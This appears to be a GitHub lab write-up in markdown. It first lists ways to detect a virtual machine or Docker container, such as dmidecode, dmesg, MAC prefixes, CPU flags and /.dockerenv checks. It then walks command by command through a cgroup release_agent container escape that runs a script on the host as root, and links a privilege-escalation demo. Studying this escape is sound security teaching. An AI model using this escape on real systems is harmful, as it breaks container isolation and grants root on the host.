



# Virtual machine

- List all the ways you know to detect work in a virtual machine.
- Provide a way to exit a docker container.

1. **dmidecode**, is a tool for dumping a computer's DMI (some say SMBIOS) table contents in a human-readable format. This table contains a description  of  the  system's  hardware  components,  as well as other useful pieces of information such as serial numbers and BIOS revision.

`sudo dmidecode`

```
# dmidecode 3.3
Getting SMBIOS data from sysfs.
SMBIOS 2.5 present.
10 structures occupying 450 bytes.
Table at 0x000E1000.

Handle 0x0000, DMI type 0, 20 bytes
BIOS Information
    	Vendor: innotek GmbH
    	Version: VirtualBox
    	Release Date: 12/01/2006
    	Address: 0xE0000
    	Runtime Size: 128 kB
    	ROM Size: 128 kB
    	Characteristics:
            	ISA is supported
            	PCI is supported
            	Boot from CD is supported
            	Selectable boot is supported
            	8042 keyboard services are supported (int 9h)
            	CGA/mono video services are supported (int 10h)
            	ACPI is supported

Handle 0x0001, DMI type 1, 27 bytes
System Information
    	Manufacturer: innotek GmbH
    	Product Name: VirtualBox
    	Version: 1.2
    	Serial Number: 0
    	UUID: b4ee0233-efd3-1a4a-90d7-163b5a89e01a
    	Wake-up Type: Power Switch
    	SKU Number: Not Specified
    	Family: Virtual Machine

Handle 0x0008, DMI type 2, 15 bytes
Base Board Information
    	Manufacturer: Oracle Corporation
    	Product Name: VirtualBox
    	Version: 1.2
    	Serial Number: 0
    	Asset Tag: Not Specified
    	Features:
            	Board is a hosting board
    	Location In Chassis: Not Specified
    	Chassis Handle: 0x0003
    	Type: Motherboard
    	Contained Object Handles: 0

Handle 0x0003, DMI type 3, 13 bytes
Chassis Information
    	Manufacturer: Oracle Corporation
    	Type: Other
    	Lock: Not Present
    	Version: Not Specified
    	Serial Number: Not Specified
    	Asset Tag: Not Specified
    	Boot-up State: Safe
    	Power Supply State: Safe
    	Thermal State: Safe
    	Security Status: None


Handle 0x0002, DMI type 11, 7 bytes
OEM Strings
    	String 1: vboxVer_6.1.32
    	String 2: vboxRev_149290

Handle 0x0008, DMI type 128, 8 bytes
OEM-specific Type
    	Header and Data:
            	80 08 08 00 FE 8C 27 00

Handle 0xFEFF, DMI type 127, 4 bytes
End Of Table
```
Hints:

>```
>Version: VirtualBox
>Product Name: VirtualBox
>Family: Virtual Machine
>Manufacturer: Oracle Corporation
>String 1: vboxVer_6.1.32
>String 2: vboxRev_149290
>```

2. **dmesg** — print or control the kernel ring buffer

`sudo dmesg | grep -i virtual`

```
[	0.000000] DMI: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
[	0.001229] CPU MTRRs all blank - virtualized system.
[	0.027033] Booting paravirtualized kernel on KVM
[	2.304966] usb 1-1: Manufacturer: VirtualBox
[	2.318775] input: VirtualBox USB Tablet as /devices/pci0000:00/0000:00:06.0/usb1/1-1/1-1:1.0/0003:80EE:0021.0001/input/input6
[	2.318973] hid-generic 0003:80EE:0021.0001: input,hidraw0: USB HID v1.10 Mouse [VirtualBox USB Tablet] on usb-0000:00:06.0-1/input0
[	4.157016] systemd[1]: Detected virtualization oracle.
[   11.770953] input: VirtualBox mouse integration as /devices/pci0000:00/0000:00:04.0/input/input8
[   74.579965] VirtualBox Guest Additions update available!
```

3. Analyze MAC-adress
`ip a`

```
eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
	link/ether 08:00:27:ad:d6:b6 brd ff:ff:ff:ff:ff:ff
	inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
   	valid_lft 82095sec preferred_lft 82095sec
	inet6 fe80::a00:27ff:fead:d6b6/64 scope link noprefixroute
   	valid_lft forever preferred_lft forever
```
><mark>08:00:27</mark>:ad:d6:b6 



4. Processes in VBOX



`ps -A | grep -i Vbox`

```
	555 ?    	00:00:00 VBoxService
	852 ?    	00:00:00 VBoxClient
	854 ?    	00:00:00 VBoxClient
	865 ?    	00:00:00 VBoxClient
	866 ?    	00:00:00 VBoxClient
	871 ?    	00:00:00 VBoxClient
	873 ?    	00:00:06 VBoxClient
	879 ?    	00:00:00 VBoxClient
	880 ?    	00:00:00 VBoxClient
```
5. In the cpuinfo file, we can find a flag with the value hypervisor - a virtualization indicator.

`lscpu | grep -i hyper`

Flags:                       	fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 ht syscall nx rdtscp lm constant_tsc rep_good nopl xtopology nonstop_tsc cpuid tsc_known_freq pni pclmulqdq ssse3 cx16 pcid sse4_1 sse4_2 x2apic movbe popcnt aes xsave avx rdrand <mark>hypervisor</mark> lahf_lm abm 3dnowprefetch invpcid_single pti fsgsbase avx2 invpcid rdseed clflushopt md_clear flush_l1d arch_capabilities
<mark>Hypervisor</mark> vendor:           	KVM

6. If the OS is running on a VM, then there is a chance that the processor parameters do not match.

`lscpu #on a VM`
```
CPU(s):              	4
  On-line CPU(s) list:   0-3
Vendor ID:           	GenuineIntel
  Model name:        	Intel(R) Core(TM) i7-10750H CPU @ 2.60GHz
	CPU family:      	6
	Model:           	165
	Thread(s) per core:  1
	Core(s) per socket:  4
```

`lscup #on a real machine`
```
CPU(s):                      	12
On-line CPU(s) list:         	0-11
Thread(s) per core:          	2
Core(s) per socket:          	6
Socket(s):                   	1
NUMA node(s):                	1
Vendor ID:                   	GenuineIntel
CPU family:                  	6
Model:                       	165
Model name:          	Intel(R) Core(TM) i7-10750H CPU @ 2.60GHz
```

7. For docker containers
```bash
#!/bin/bash
INODE_NUM=`ls -ali / | sed '2!d' |awk {'print $1'}`
if [ $INODE_NUM == '2' ];
then
        echo "Outside the docker"
else
        echo "Inside the docker"
fi
```
```bash
#!/bin/bash
if [ -f /.dockerenv ]; then
    echo "I'm inside matrix ;(";
else
    echo "I'm living in real world!";
fi
```
8. The **inxi** utility is used to obtain information about hardware and the system in Linux.

`inxi -Faz`
```
Machine:
  Type: Virtualbox System: innotek GmbH product: VirtualBox v: 1.2
	serial: <superuser required> Chassis: Oracle Corporation type: 1
	serial: <superuser required>
  Mobo: Oracle model: VirtualBox v: 1.2 serial: <superuser required>
	BIOS: innotek GmbH v: VirtualBox date: 12/01/2006
```

9. **mvirt** - a Perl script that detects virtualization based on boot messages, directories, DMI (hardware information about the computer) reading, etc.

`sudo imvirt`
```
KVM
```

## Exiting Docker

```bash
sudo docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```
Command to create docker:
- rm delete after use
- it so that the shell does not close after executing the command
- cap-add=SYS_ADMIN so that mount_sys_call is used
- security-opt apparmor=unconfined disables apparmor (apparmor restricts access to “capabilities” files, network access, etc.)

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
creates a new group cgroup and through mount we show the files that belong to the group

```bash
echo 1 > /tmp/cgrp/x/notify_on_release 
```
when the processes decrease and the value in the file notify_on_release is 1, the command from the file release_agent, which is located in the directory above, is launched

```bash
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```
using a regular expression we find out the absolute path of the container so that we can run the script from the host

```bash
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
enter the absolute path to the script in release_agent

```bash
echo '#!/bin/sh' > /cmd
echo 'if [ -f /.dockerenv ]; then 	echo "Im inside matrix ;("; else 	echo "Im living in real world!"; fi' " > $host_path/output" >> /cmd 
chmod a+x /cmd #add execute right
```
we create a script to prove that we managed to exit the container, we will use test 7 to check

```bash
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
to run the script you need to kill all cgroup processes, but there are no processes yet. To add a process you need to add the PID to cgroup.procs. $$ is a bash variable that is equal to the PID of the current process

```bash
cat output
```
let's see the result


If the docker is launched as root, then the commands from the script are also executed as the root user. This vulnerability can be combined with the privilege-escalation vulnerability and this way you can achieve root rights if this user is in the docker group.

https://github.com/tchar/privilege-escalation-demo